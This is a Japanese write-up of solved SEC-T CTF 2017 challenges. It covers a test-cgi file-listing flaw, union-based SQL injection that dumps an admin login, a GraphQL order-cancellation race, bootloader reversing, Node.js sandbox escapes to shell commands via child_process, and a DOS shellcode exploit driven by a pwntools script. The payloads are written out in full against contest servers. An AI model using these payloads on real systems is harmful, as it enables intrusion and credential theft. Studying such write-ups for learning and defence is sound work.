

チーム Harekaze で [SEC-T CTF 2017](https://sect.ctf.rocks/) に参加しました。最終的にチームで 2935 点を獲得し、順位は得点 500 チーム中 5 位でした。うち、私は 12 問を解いて 2625 点を入れました。

以下、解いた問題の write-up です。

## [Web 100] Sprinkler system

与えられた URL にアクセスすると、以下のようなメッセージが表示されました。

```
This is the test interface. This system MUST only used for drills authorized by the new york fire department office according to law 3154 of the 1994 fire is bad act section §1.37.
```

ソースには特に気になることはありませんでした。`/robots.txt` を見てみましょう。

```
User-agent: *
Disallow: /cgi-bin/test-cgi
```

`/cgi-bin/test-cgi` を見てみましょう。

```
CGI/1.0 test script report:

argc is 0. argv is .

SERVER_SOFTWARE = Apache/2.4.18 (Ubuntu)
SERVER_NAME = sprinklers.alieni.se
GATEWAY_INTERFACE = CGI/1.1
SERVER_PROTOCOL = HTTP/1.1
SERVER_PORT = 80
REQUEST_METHOD = GET
HTTP_ACCEPT = text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
PATH_INFO = 
PATH_TRANSLATED = 
SCRIPT_NAME = /cgi-bin/test-cgi
QUERY_STRING =
REMOTE_HOST =
REMOTE_ADDR = 173.245.48.78
REMOTE_USER =
AUTH_TYPE =
CONTENT_TYPE =
CONTENT_LENGTH =
```

リクエストヘッダの内容やサーバの情報が表示されました。CGI のテストのようです。

このスクリプトで何かできないか `cgi/1.0 test script vulnerability` でググってみると、[test-cgi vulnerability](http://insecure.org/sploits/test-cgi.html) というページがヒットしました。

どうやら `/cgi-bin/test-cgi?/*` にアクセスすると `/` 下のファイルとディレクトリの一覧が `QUERY_STRING` の欄に表示されてしまうという脆弱性が存在するようです。早速 `/cgi-bin/test-cgi?/*` にアクセスしてみましょう。

```
QUERY_STRING = /app /bin /boot /dev /etc /git /home /lib /lib64 /media /mnt /opt /proc /root /run /sbin /srv /sys /tmp /usr /var
```

`/git` という気になるディレクトリがあります。`/cgi-bin/test-cgi?/git/*` にアクセスしましょう。

```
QUERY_STRING = /git/Dockerfile /git/cgi-bin /git/circuitboard.jpg /git/config /git/counter.gif /git/index.html /git/robots.txt /git/sleep.sh
```

`/cgi-bin/test-cgi?/git/cgi-bin/*` にアクセスしましょう。

```
QUERY_STRING = /git/cgi-bin/enable_sprinkler_system /git/cgi-bin/test-cgi
```

`test-cgi` 以外にも `enable_sprinkler_system` というスクリプトが存在するようです。`/cgi-bin/enable_sprinkler_system` にアクセスするとフラグが得られました。

```
SECT{-p00l_On_t3h_r00f_must_h@v3_A_l3ak!-}
```

## [Web 200+5] Naughty ads

与えられた URL にアクセスすると、いろいろな広告の画像が表示されました。広告にはそれぞれ `?id=0c3f-42c8-a0ae` のようなリンクが設定されており、クリックすると連絡先の電話番号が表示されます。

`?id=0c3f-42c8-a0ae'` にアクセスすると `500 Internal Server Error` が表示されました。`?id=0c3f-42c8-a0ae' '` にアクセスすると `?id=0c3f-42c8-a0ae` にアクセスしたときと同じ電話番号が表示されました。SQLi ができそうです。

`?id=%27%26%260%20union%20select%20version();%23` (`'&&0 union select version();#`) にアクセスすると `5.7.19` と表示されました。これで MySQL が使われていることが分かりました。

どのようなテーブルが存在するか調べてみましょう。`/?id=%27%26%260%20union%20select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema%20=%20database();%23` (`'&&0 union select group_concat(table_name) from information_schema.tables where table_schema = database();#`) にアクセスすると `ads,login` と表示されました。

`login` というテーブルについて調べてみましょう。`?id=%27%26%260%20union%20select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_name%20=%20%27login%27;%23` (`'&&0 union select group_concat(column_name) from information_schema.columns where table_name = 'login';#`) にアクセスすると `id,name,password` と表示されました。

`login` というテーブルからユーザ名とパスワードを抜き出してみましょう。`?id=%27%26%260%20union%20select%20group_concat(concat(name,char(0x3a),password))%20from%20login%23;` (`'&&0 union select group_concat(concat(name,char(0x3a),password)) from login#;`) にアクセスすると `webmasterofdoom3755:5ebe2294ecd0e0f08eab7690d2a6ee69` と表示されました。

この認証情報がどこで使えるか探してみると `/admin/` でログインフォームが見つかりました。`5ebe2294ecd0e0f08eab7690d2a6ee69` は `secret` の md5 ハッシュです。ユーザ名に `webmasterofdoom3755` パスワードに `secret` を入力するとログインができました。

ログイン後、広告の登録フォームが表示されたので問題文で与えられた電話番号で登録するとフラグが得られました。

```
SECT{~tr4nsv3stiT3s_w3lc0me_t00~}
```

## [Web 300] Darkmarket

与えられた URL はダークマーケットのようです。ユーザを作成してログインすると `/buy` で商品の一覧の閲覧が、`/orderstatus` で購入した商品の配達状況の確認ができるようになりました。

メリケンサックやフレアガンなどいろいろなものが売られていますが、フレアガンだけは $110 と高額で登録時に与えられた $100 では購入できないようです。

`/orderstatus` のソースを見てみると、以下のようなスクリプトがありました。

```javascript
    function searchOrder(){
        searchResult.innerText = "searched for "+search.value
    }

    var orderSearch = `
    query fetchOrder($searchTerm: String!) {
      findOrder(orderId: $searchTerm) {
        productId
      }
    }`

    var productSearch = `
    query fetchProduct($searchTerm: Int!) {
        findProduct(productId: $searchTerm) {
            name
            desc
            image
            price
        }
    }`

    function searchOrder() {
        var searchTerm = search.value;
        var payload = {
            query: orderSearch,
            variables: JSON.stringify({
                searchTerm: searchTerm,
            })
        }

        $.post("/graphql", payload, function(response) {
            if (response.errors || response.data.findOrder == null) {
                searchResult.innerText = "ERROR";
            } else {
                searchTerm = response.data.findOrder.productId;
                payload = {
                        query: productSearch,
                        variables: JSON.stringify({
                            searchTerm: searchTerm,
                        })
                    };
                $.post("/graphql", payload, function(response){
                    if (response.errors){
                        searchResult.innerText = "ERROR";
                    }else{
                        product = response.data.findProduct;
                        searchResult.innerHTML = `
                        <TABLE BORDER="1">
                            <TR>
                                <TD>Name</TD>
                                <TD>Description</TD>
                                <TD>Price</TD>
                                <TD>Image</TD>
                                <TD>Order</TD>
                                <TD>Tracking status</TD>
                            </TR>
                            <TR>
                                <TD>${product.name}</TD>
                                <TD>${product.desc}</TD>
                                <TD>${product.price}</TD>
                                <TD></TD>
                                <TD>${search.value}</TD>
                                <TD>Not shipped</TD>
                            </TR>
                        </TABLE>
                        `;
                    }
                })
            }
        })
    }
```

`/graphql` に GraphQL のエンドポイントを持っているようです。[graphcool/get-graphql-schema](https://github.com/graphcool/get-graphql-schema) でスキーマを調べてみましょう。

```
$ get-graphql-schema http://defense.alieni.se:3002/graphql -h "Cookie: session=..."
schema {
  query: Query
  mutation: MyMutations
}

type deleteOrder {
  success: Boolean
}

type MyMutations {
  deleteOrder(orderId: String, userId: Int): deleteOrder
}

# An object with an ID
interface Node {
  # The ID of the object.
  id: ID!
}

type Orders implements Node {
  # The ID of the object.
  id: ID!
  productId: Int
  userId: Int
  orderId: String
  user: Users
}

type OrdersConnection {
  pageInfo: PageInfo!
  edges: [OrdersEdge]!
}

type OrdersEdge {
  # The item at the end of the edge
  node: Orders

  # A cursor for use in pagination
  cursor: String!
}

type PageInfo {
  # When paginating forwards, are there more items?
  hasNextPage: Boolean!

  # When paginating backwards, are there more items?
  hasPreviousPage: Boolean!

  # When paginating backwards, the cursor to continue.
  startCursor: String

  # When paginating forwards, the cursor to continue.
  endCursor: String
}

type Products implements Node {
  # The ID of the object.
  id: ID!
  name: String
  desc: String
  image: String
  price: Int
}

type Query {
  findProduct(productId: Int): Products
  findOrder(orderId: String): Orders
}

type Users implements Node {
  # The ID of the object.
  id: ID!
  name: String
  password: String
  balance: Int
  orders(before: String, after: String, first: Int, last: Int): OrdersConnection
}
```

`/orderstatus` のソース中には存在しませんが、`deleteOrder` というミューテーションにユーザ ID と注文の ID を渡すことで注文の取り消しができるようです。

まず自分のユーザ ID を調べましょう。`query=query f($q: String!) { findOrder(orderId: $q) { user { id } } }&variables={ "q": "35643cd4-eb98-47ed-9ca8-a4026044187d" }` を `/graphql` に POST するとユーザ ID が `35` であると分かりました。

`query=mutation op($oid: String!, $uid: Int!) { deleteOrder(orderId: $oid, userId: $uid) { success } }&variables={ "oid": "35643cd4-eb98-47ed-9ca8-a4026044187d", "uid": 35 }` を `/graphql` に POST すると注文の取り消しができました。

write-up を書く前にサービスが止められてしまったので詳しくは調べられていないのですが (すみません…)、以下のスクリプトを実行すると $30 の商品を二重に購入することができました。

```
curl -X POST -H "Cookie: session=$sess1" http://defense.alieni.se:3002/graphql -d 'query=mutation f($oid: String, $uid: Int) { deleteOrder(orderId: $oid, userId: $uid) { success } }&variables={ "oid": "2236e26a-806c-46ea-b6ca-978a37697875", "uid": 35 }' &\
curl -X POST -H "Cookie: session=$sess2" http://defense.alieni.se:3002/graphql -d 'query=mutation f($oid: String, $uid: Int) { deleteOrder(orderId: $oid, userId: $uid) { success } }&variables={ "oid": "2236e26a-806c-46ea-b6ca-978a37697875", "uid": 35 }' &\
curl 'http://defense.alieni.se:3002/buy' -H "Cookie: session=$sess1" -d 'product=1' &\
curl 'http://defense.alieni.se:3002/buy' -H "Cookie: session=$sess2" -d 'product=1'
```

両方とも注文を取り消すと所持金は $130 になりました。最初は購入できなかった $110 のフレアガンを購入するとフラグが得られました。

```
SECT{__er0t1cally...4s 1f IT wer3__}
```

## [Rev 300] Zerocool

`pwn.img` というファイルが与えられました。`file` に投げてみましょう。

```
$ file ./pwn.img
./pwn.img: DOS/MBR boot sector, code offset 0x52+2, OEM-ID "NTFS    ", sectors/cluster 8, Media descriptor 0xf8, sectors/track 0, dos < 4.0 BootSector (0x80), FAT (1Y bit by descriptor); NTFS, sectors 4095, $MFT start cluster 4, $MFTMirror start cluster 255, bytes/RecordSegment 2^(-1*246), clusters/index block 1, serial number 01246dcd626153df1; contains Microsoft Windows XP/VISTA bootloader BOOTMGR
```

`qemu-system-i386 pwn.img` で実行してみると以下のような画面が表示されました。


どうやらこのパスフレーズを見つけなければいけないようです。`qemu-system-i386 -s -S pwn.img` で実行し、`gdb` のリモートデバッグ機能を使って調べていきましょう。

```
$ gdb -n ./pwn.img
(gdb) set disassembly-flavor intel
(gdb) set architecture i8086
(gdb) target remote localhost:1234
Remote debugging using localhost:1234
0x0000fff0 in ?? ()
(gdb) b *0x7c00
Breakpoint 1 at 0x7c00
(gdb) c
Continuing.

Breakpoint 1, 0x00007c00 in ?? ()
(gdb) x/i $eip
=> 0x7c00:      jmp    0x7c54
(gdb) x/32i 0x7c54
   0x7c54:      cli    
   0x7c55:      mov    ax,cs
   0x7c57:      mov    ds,ax
   0x7c59:      mov    es,ax
   0x7c5b:      mov    ss,ax
   0x7c5d:      mov    bp,0x7c00
   0x7c60:      mov    sp,0x7c00
   0x7c63:      sti    
   0x7c64:      xor    ax,ax
   0x7c66:      mov    es,ax
   0x7c68:      mov    cx,0xb
   0x7c6b:      mov    dx,0x80
   0x7c6e:      mov    bx,0x5000
   0x7c71:      mov    ax,0x202
   0x7c74:      int    0x13
   0x7c76:      mov    cx,0x400
   0x7c79:      xor    ax,ax
   0x7c7b:      mov    dh,BYTE PTR [bx]
   0x7c7d:      xor    dh,0x13
   0x7c80:      xor    dh,0x37
   0x7c83:      mov    BYTE PTR [bx],dh
   0x7c85:      inc    ax
   0x7c86:      inc    bx
   0x7c87:      cmp    ax,cx
   0x7c89:      jne    0x7c7b
   0x7c8b:      sub    bx,ax
   0x7c8d:      inc    bx
   0x7c8e:      jmp    bx
   0x7c90:      ret   
```

`0x7c8e: jmp ebx` にブレークポイントを設置し、ジャンプ先で何が実行されるか調べます。

```
(gdb) b *0x7c8e
Breakpoint 2 at 0x7c8e
(gdb) c
Continuing.

Breakpoint 2, 0x00007c8e in ?? ()
(gdb) x/1024i $bx
   0x5001:      cli    
   0x5002:      xor    cx,cx
   0x5004:      mov    ax,cs
   0x5006:      mov    ds,ax
   0x5008:      mov    es,ax
   0x500a:      mov    ss,ax
   0x500c:      mov    bp,0x5000
   0x500f:      mov    sp,0x6000
   0x5012:      sti    
   0x5013:      mov    ah,0x0
   0x5015:      mov    al,0x3
   0x5017:      int    0x10
...
   0x5122:      push   cx
   0x5123:      xchg   bx,ax
   0x5124:      mov    cx,WORD PTR [bx]
   0x5126:      xor    cx,0x1337
   0x512a:      cmp    cx,0x5275
   0x512e:      jne    0x5089
   0x5132:      xchg   bx,ax
   0x5133:      pop    cx
   0x5134:      mov    cx,WORD PTR [bx]
   0x5136:      xchg   dx,bx
   0x5138:      mov    WORD PTR [bx],cx
   0x513a:      xchg   dx,bx
   0x513c:      add    bx,0x2
   0x513f:      add    dx,0x2
   0x5142:      push   cx
   0x5143:      xchg   bx,ax
   0x5144:      mov    cx,WORD PTR [bx+0x2]
   0x5147:      xor    cx,0x1337
   0x514b:      cmp    cx,0x5573
   0x514f:      jne    0x5089
```

0x5122 辺りからは入力したパスフレーズの先頭 2 文字と 0x1337 を xor して 0x5275 と比較、もし違っていれば 0x5089 にジャンプという処理をしています。その後入力したパスフレーズの 3 文字目と 4 文字目に対しても同じような処理を行っています。

これが延々と続くのでちまちまパスフレーズを調べていくと、`BADF00DCAF3B4B3` が正解であると分かりました。

`BADF00DCAF3B4B3` を入力するとフラグが表示されました。



```
SECT{w00t_b00t_r0000t}
```

## [Pwn 200] Jail

jsjail 問のようです。まず `this` を入力すると以下のように関数の内容が得られました。

```javascript
function call(number) {
        var hangup = process.exit;
        var line = "";

        if(number == 911){
            console.log("Invalid number");
            ask();
            return;
        }

        var flag,Array,Boolean,Date,global,Error,EvalError,Function,Number,Object,RangeError,ReferenceError,String,SyntaxError,TypeError,URIError,decodeURI,decodeURIComponent,encodeURI,encodeURIComponent,isFinite,isNaN,parseFloat,parseInt,ArrayBuffer,Buffer,DTRACE_HTTP_CLIENT_REQUEST,DTRACE_HTTP_CLIENT_RESPONSE,DTRACE_HTTP_SERVER_REQUEST,DTRACE_HTTP_SERVER_RESPONSE,DTRACE_NET_SERVER_CONNECTION,DTRACE_NET_STREAM_END,DataView,Float32Array,Float64Array,Int16Array,Int32Array,Int8Array,Map,Promise,Proxy,Set,Symbol,Uint16Array,Uint32Array,Uint8Array,Uint8ClampedArray,WeakMap,WeakSet,assert,clearImmediate,clearInterval,clearTimeout,escape,events,require,setImmediate,setInterval,setTimeout,stream,unescape,__defineGetter__,__defineSetter__,__lookupGetter__,__lookupSetter__,constructor,hasOwnProperty,isPrototypeOf,propertyIsEnumerable,toLocaleString,toString,valueOf;

        if(new RegExp(/[\[\]\.\\]/).test(number)){
            console.log("Dangerous characters detected");
            hangup();
            return;
        }

        arguments = undefined;

        console.log("Calling "+eval(number)+"... Nobody picks up!");
        hangup();
}
```

`[` `]` `.` `\` が使えないようです。前の 3 つが潰されているのでオブジェクトのプロパティへのアクセスは厳しそうですが、`with` 文を使えばできそうです。

`with (process) { with (mainModule) { with (require('child_process')) { execSync('ls'); } } }` を入力すると OS コマンドが実行できました。

```
Phone #> with (process) { with (mainModule) { with (require('child_process')) { execSync('ls'); } } }
Calling Dockerfile
chall.sh
jail.js
killall.sh
package-lock.json
package.json
run.sh
```

```
Phone #> with (process) { with (mainModule) { with (require('child_process')) { execSync('cat j*'); } } }
Calling var flag = "SECT{1ts_1n_th4T_pl4Ce_Wh3re_1_Pu7_tH4t_Th1ng_th4T_t1m3,}"
var readline = require('readline');
var rl = readline.createInterface(process.stdin, process.stdout);

var Jail = (function() {
    var rv = {};

    function call(number) {
        var hangup = process.exit;
        var line = "";

        if(number == 911){
            console.log("Invalid number");
            ask();
            return;
        }

        var flag,Array,Boolean,Date,global,Error,EvalError,Function,Number,Object,RangeError,ReferenceError,String,SyntaxError,TypeError,URIError,decodeURI,decodeURIComponent,encodeURI,encodeURIComponent,isFinite,isNaN,parseFloat,parseInt,ArrayBuffer,Buffer,DTRACE_HTTP_CLIENT_REQUEST,DTRACE_HTTP_CLIENT_RESPONSE,DTRACE_HTTP_SERVER_REQUEST,DTRACE_HTTP_SERVER_RESPONSE,DTRACE_NET_SERVER_CONNECTION,DTRACE_NET_STREAM_END,DataView,Float32Array,Float64Array,Int16Array,Int32Array,Int8Array,Map,Promise,Proxy,Set,Symbol,Uint16Array,Uint32Array,Uint8Array,Uint8ClampedArray,WeakMap,WeakSet,assert,clearImmediate,clearInterval,clearTimeout,escape,events,require,setImmediate,setInterval,setTimeout,stream,unescape,__defineGetter__,__defineSetter__,__lookupGetter__,__lookupSetter__,constructor,hasOwnProperty,isPrototypeOf,propertyIsEnumerable,toLocaleString,toString,valueOf;

        if(new RegExp(/[\[\]\.\\]/).test(number)){
            console.log("Dangerous characters detected");
            hangup();
            return;
        }

        arguments = undefined;

        console.log("Calling "+eval(number)+"... Nobody picks up!");
        hangup();
    };
    rv.call = call;
    rv.toString = function(){return rv.call.toString()};

    return rv;
})();

template = `_____________________________
     ||   ||     ||   ||
     ||   ||, , ,||   ||
     ||  (||/|/(\/||/  ||
     ||  ||| _'_´|||  ||
     ||   || o o ||   ||
     ||  (||  - ´||)  ||
     ||   ||  =  ||   ||
     ||   ||\\___/||   ||
     ||___||) , (||___||
    /||---||-\\_/-||---||\\
   / ||--_||_____||_--|| \\ 
  (_(||)-|S555-4202|-(||)_)
|"""""""""""""""""""""""""""|
| "You get one call, UNO."  |
 """""""""""""""""""""""""""
 Phone #> `;

function ask(){
    rl.question(template,function(answer){
        Jail.call(answer);
    });
}

ask();
```

```
SECT{1ts_1n_th4T_pl4Ce_Wh3re_1_Pu7_tH4t_Th1ng_th4T_t1m3,}
```

## [Pwn 350] Jail 2

Jail の続きのようです。`this` を入力すると以下のように関数の内容が得られました。

```javascript
function call(number) {
        var line = "";

        var call,Array,ArrayBuffer,Boolean,Buffer,DTRACE_HTTP_CLIENT_REQUEST,DTRACE_HTTP_CLIENT_RESPONSE,DTRACE_HTTP_SERVER_REQUEST,DTRACE_HTTP_SERVER_RESPONSE,DTRACE_NET_SERVER_CONNECTION,DTRACE_NET_STREAM_END,DataView,Date,Error,EvalError,Float32Array,Float64Array,Function,Int16Array,Int32Array,Int8Array,Map,Number,Object,Promise,Proxy,RangeError,ReferenceError,Set,String,Symbol,SyntaxError,TypeError,URIError,Uint16Array,Uint32Array,Uint8Array,Uint8ClampedArray,WeakMap,WeakSet,__defineGetter__,__defineSetter__,__lookupGetter__,__lookupSetter__,assert,call,clearImmediate,clearInterval,clearTimeout,constructor,decodeURI,decodeURIComponent,encodeURI,encodeURIComponent,escape,events,flag,global,hasOwnProperty,isFinite,isNaN,isPrototypeOf,parseFloat,parseInt,process,propertyIsEnumerable,require,rl,setImmediate,setInterval,setTimeout,stream,template,toLocaleString,toString,unescape,valueOf;

        if(new RegExp(/[\[\]\.\\\+\/;,=]/).test(number)){
            console.log("Dangerous characters detected");
            throw 123;
            return;
        }

        if(new RegExp(/with/i).test(number)){
            console.log("Dangerous characters detected");
            throw 123;
            return;
        }

        arguments = undefined;

        console.log("Calling "+eval(number)+"... Nobody picks up!");
        throw 123;
}
```

`with` やらなんやらが潰されてしまっていますが、`eval` は使えるようです。これで何かできないかいろいろ試してみましょう。

まず `eval('eval')('template')` で `template` にアクセスができました。これで削除されたはずのグローバル変数の読み出しができそうです。

オブジェクトのプロパティへのアクセスについて考えてみます。`[` `]` `\` といった文字は使用できないようですが、これを予めエスケープしておいて、デコードしてから `eval` に投げれば制限をバイパスすることができそうです。

テンプレートリテラルと `decodeURIComponent` を利用して、

```javascript
eval('eval')('decodeURIComponent')`%2e`
```

を実行すると `'.'` という文字列が得られました。

これを利用して、以下のスクリプトを入力すると OS のコマンドが実行できました。

```javascript
eval('eval')(eval('eval')('decodeURIComponent')`process%2emainModule%2erequire('child_process')%2eexecSync('ls')`)
```

```
eval('eval')(eval('eval')('decodeURIComponent')`process%2emainModule%2erequire('child_process')%2eexecSync('ls')`)
...
 Phone #> Calling Dockerfile
chall.sh
jail.js
killall.sh
package-lock.json
package.json
run.sh
```

```
eval('eval')(eval('eval')('decodeURIComponent')`process%2emainModule%2erequire('child_process')%2eexecSync('cat j*')`)
...
 Phone #> Calling var flag = "SECT{h3_r34lly_h@cked_1n7o_Ell1ngz0n!!!}"
var readline = require('readline');
var rl = readline.createInterface(process.stdin, process.stdout);

var Jail = (function() {
    var rv = {};

    function call(number) {
        var line = "";

        var call,Array,ArrayBuffer,Boolean,Buffer,DTRACE_HTTP_CLIENT_REQUEST,DTRACE_HTTP_CLIENT_RESPONSE,DTRACE_HTTP_SERVER_REQUEST,DTRACE_HTTP_SERVER_RESPONSE,DTRACE_NET_SERVER_CONNECTION,DTRACE_NET_STREAM_END,DataView,Date,Error,EvalError,Float32Array,Float64Array,Function,Int16Array,Int32Array,Int8Array,Map,Number,Object,Promise,Proxy,RangeError,ReferenceError,Set,String,Symbol,SyntaxError,TypeError,URIError,Uint16Array,Uint32Array,Uint8Array,Uint8ClampedArray,WeakMap,WeakSet,__defineGetter__,__defineSetter__,__lookupGetter__,__lookupSetter__,assert,call,clearImmediate,clearInterval,clearTimeout,constructor,decodeURI,decodeURIComponent,encodeURI,encodeURIComponent,escape,events,flag,global,hasOwnProperty,isFinite,isNaN,isPrototypeOf,parseFloat,parseInt,process,propertyIsEnumerable,require,rl,setImmediate,setInterval,setTimeout,stream,template,toLocaleString,toString,unescape,valueOf;

        if(new RegExp(/[\[\]\.\\\+\/;,=]/).test(number)){
            console.log("Dangerous characters detected");
            throw 123;
            return;
        }

        if(new RegExp(/with/i).test(number)){
            console.log("Dangerous characters detected");
            throw 123;
            return;
        }

        arguments = undefined;

        console.log("Calling "+eval(number)+"... Nobody picks up!");
        throw 123;
    };
    rv.call = call;
    rv.toString = function(){return rv.call.toString()};

    return rv;
})();

template = `_____________________________
     ||   ||     ||   ||
     ||   ||, , ,||   ||
     ||  (||/|/(\/||/  ||
     ||  ||| _'_´|||  ||
     ||   || o o ||   ||
     ||  (||  - ´||)  ||
     ||   ||  =  ||   ||
     ||   ||\\___/||   ||
     ||___||) , (||___||
    /||---||-\\_/-||---||\\
   / ||--_||_____||_--|| \\ 
  (_(||)-|S555-4202|-(||)_)
|"""""""""""""""""""""""""""|
| "You get one call, UNO."  |
 """""""""""""""""""""""""""
 Phone #> `;


rl.question("Flag for previous challenge> ",function(answer){
    if(answer === "SECT{1ts_1n_th4T_pl4Ce_Wh3re_1_Pu7_tH4t_Th1ng_th4T_t1m3,}"){
        rl.question(template, function(answer2){
            Jail.call(answer2);
        });
    }else{
        console.log("Wrong!")
        process.exit();
    }
});
```

```
SECT{h3_r34lly_h@cked_1n7o_Ell1ngz0n!!!}
```

## [Pwn 300] The gibson

`thegibson_739177bc1702d83157344edd98f56ae1` というファイルが与えられました。`file` に投げてみましょう。

```
$ file ./thegibson_739177bc1702d83157344edd98f56ae1
thegibson_739177bc1702d83157344edd98f56ae1: COM executable for DOS
```

`ndisasm` で逆アセンブルして、文字列の参照や `int 0x21` (ファンクションコール) などについてコメントを入れてみます。

```
$ ndisasm thegibson_739177bc1702d83157344edd98f56ae1 > chall.dis
$ cat chall.dis
00000000  B409              mov ah,0x9           ; 文字列の出力
00000002  BA0502            mov dx,0x205         ; "######################\n\rTHE GIBSON BACKDOOR\n\r######################"
00000005  CD21              int 0x21
00000007  B409              mov ah,0x9           ; 文字列の出力
00000009  BA4902            mov dx,0x249         ; "\n\rEnter password: "
0000000C  CD21              int 0x21
0000000E  B90000            mov cx,0x0
00000011  BB0030            mov bx,0x3000
00000014  BA0D00            mov dx,0xd
00000017  83C201            add dx,byte +0x1
                  label_1a:
0000001A  B401              mov ah,0x1           ; キーボードから読み込み (エコーあり)
0000001C  CD21              int 0x21
0000001E  3C0A              cmp al,0xa
00000020  7408              jz 0x2a
00000022  8807              mov [bx],al
00000024  43                inc bx
00000025  41                inc cx
00000026  39D1              cmp cx,dx
00000028  75F0              jnz 0x1a
                  label_2a:
0000002A  B90000            mov cx,0x0
0000002D  BB0030            mov bx,0x3000
00000030  B89B02            mov ax,0x29b         ; "HACKTHEPLANET"
00000033  BA0D00            mov dx,0xd
                  label_36:
00000036  51                push cx
00000037  31C9              xor cx,cx
00000039  8A0F              mov cl,[bx]
0000003B  93                xchg ax,bx
0000003C  8A2F              mov ch,[bx]
0000003E  93                xchg ax,bx
0000003F  38E9              cmp cl,ch
00000041  7557              jnz 0x9a
00000043  59                pop cx
00000044  41                inc cx
00000045  43                inc bx
00000046  40                inc ax
00000047  39D1              cmp cx,dx
00000049  75EB              jnz 0x36

0000004B  B409              mov ah,0x9           ; 文字列の出力
0000004D  BA5C02            mov dx,0x25c         ; "\n\rOK! BACKDOOR CMD: "
00000050  CD21              int 0x21
00000052  BB9A01            mov bx,0x19a
00000055  B90000            mov cx,0x0
                  label_58:
00000058  B408              mov ah,0x8           ; キーボードから読み込み (エコーなし)
0000005A  CD21              int 0x21
0000005C  3C0A              cmp al,0xa
0000005E  743A              jz 0x9a
00000060  3C41              cmp al,0x41
00000062  7412              jz 0x76
00000064  3C42              cmp al,0x42
00000066  7413              jz 0x7b
00000068  3C43              cmp al,0x43
0000006A  7414              jz 0x80
0000006C  3C44              cmp al,0x44
0000006E  7415              jz 0x85
00000070  3C45              cmp al,0x45
00000072  7416              jz 0x8a
00000074  EBE2              jmp short 0x58
00000076  83C301            add bx,byte +0x1
00000079  EBDD              jmp short 0x58
0000007B  83EB01            sub bx,byte +0x1
0000007E  EBD8              jmp short 0x58
00000080  83E901            sub cx,byte +0x1
00000083  EBD3              jmp short 0x58
00000085  83C101            add cx,byte +0x1
00000088  EBCE              jmp short 0x58
0000008A  890F              mov [bx],cx
0000008C  EBCA              jmp short 0x58
                  label_8e:
0000008E  B401              mov ah,0x1           ; キーボードから読み込み (エコーあり)
00000090  CD21              int 0x21
00000092  3C0A              cmp al,0xa
00000094  75F8              jnz 0x8e
00000096  B400              mov ah,0x0           ; プログラムの終了
00000098  CD21              int 0x21
                  label_9a:
0000009A  B409              mov ah,0x9           ; 文字列の出力
0000009C  BA7102            mov dx,0x271         ; "\n\rYOU ARE EXPUNGED, PRESS ENTER TO LEAVE"
0000009F  CD21              int 0x21
000000A1  EBEB              jmp short 0x8e
...
(nop がしばらく続く)
...
00000101  B400              mov ah,0x0           ; プログラムの終了
00000103  CD21              int 0x21
```

0x0 ~ 0x49 辺りではパスワードの入力とチェックを行っています。パスワードの入力では、0x3000 に 1 文字ずつ入力文字を格納していき、改行文字が入力されればチェックルーチン (0x2a) にジャンプ、改行文字を含めて 14 文字でなければもう 1 文字入力を行っています。チェックルーチンでは入力文字列と `HACKTHEPLANET` を比較し、全部合っていれば次の処理に移行し、もし 1 文字でも間違っていれば終了ルーチン (0x9a) にジャンプしています。

0x4b 以降では入力文字に応じて様々な処理を行っています。`A` を入力すれば `add bx,0x1`、`B` を入力すれば `sub bx,0x1`、`C` を入力すれば `sub cx,0x1`、`D` を入力すれば `add cx,0x1`、`E` を入力すれば `mov [bx],cx` という感じの処理を行い、改行文字を入力すれば終了ルーチン (0x9a) にジャンプしています。

リモートでは `FLAG` というファイルにフラグがあるようなので、0x9a 以降をこのファイルの読み込み処理に書き換えてしまいましょう。

`FLAG` を読み込むシェルコードは以下のようになりました。`nasm -f bin -o shellcode.com` でアセンブルしましょう。

```
org 100h
bits 16

section .text
start:
  push 0x0
  push 0x4741
  push 0x4c46
  mov dx, sp ; ファイル名

  mov al, 0x0 ; 読み込み専用
  mov ah, 0x3d ; ファイルのオープン
  int 0x21

  mov bx, ax
  mov dx, 0x270 ; バッファ
  mov cx, 0xff ; 読み込むバイト数
  mov ah, 0x3f ; ファイルの読み込み
  int 0x21

  mov dx, 0x270 ; バッファ
  mov ah, 0x9 ; 文字列の出力
  int 0x21

  mov ah, 0x0 ; プログラムの終了
  int 0x21
```

あとは以下のスクリプトを実行するとフラグが得られました。

```python
from pwn import *

with open('shellcode.com', 'rb') as f:
  shellcode = f.read()

s = remote('pwn.sect.ctf.rocks', 4444)
s.recvuntil('Now type ENTER to start DOSEMU or <Ctrl>C to cancel')
s.sendline('\n')

s.recvuntil('Enter password:')
s.sendline('HACKTHEPLANET')

s.recvuntil('OK! BACKDOOR CMD:')
cx = 0
for c in shellcode:
  log.info(repr(c))
  tmp = ''
  c = ord(c)
  if c > cx:
    tmp += 'D' * (c - cx)
  else:
    tmp += 'C' * (cx - c)
  tmp += 'EA'
  cx = c
  s.send(tmp)

s.sendline('')
s.interactive()
```

```
SECT{MEMBER_MSDOS_I_MEMBER}
```

## [Misc 50] Joeys screenshot

`chall.png` という画像ファイルが与えられました。`pngcheck` で調べてみましょう。

```
$ pngcheck -v ./chall.png 
File: ./chall.png (896374 bytes)
  chunk IHDR at offset 0x0000c, length 13
    1131 x 481 image, 24-bit RGB, non-interlaced
  chunk iTXt at offset 0x00025, length 40, keyword: Comment
    compressed, language tag = 1337
    26 bytes of translated keyword and UTF-8 text
  chunk iTXt at offset 0x00059, length 40, keyword: Comment
    compressed, language tag = 1337
    26 bytes of translated keyword and UTF-8 text
  chunk iTXt at offset 0x0008d, length 39, keyword: Comment
    compressed, language tag = 1337
    25 bytes of translated keyword and UTF-8 text
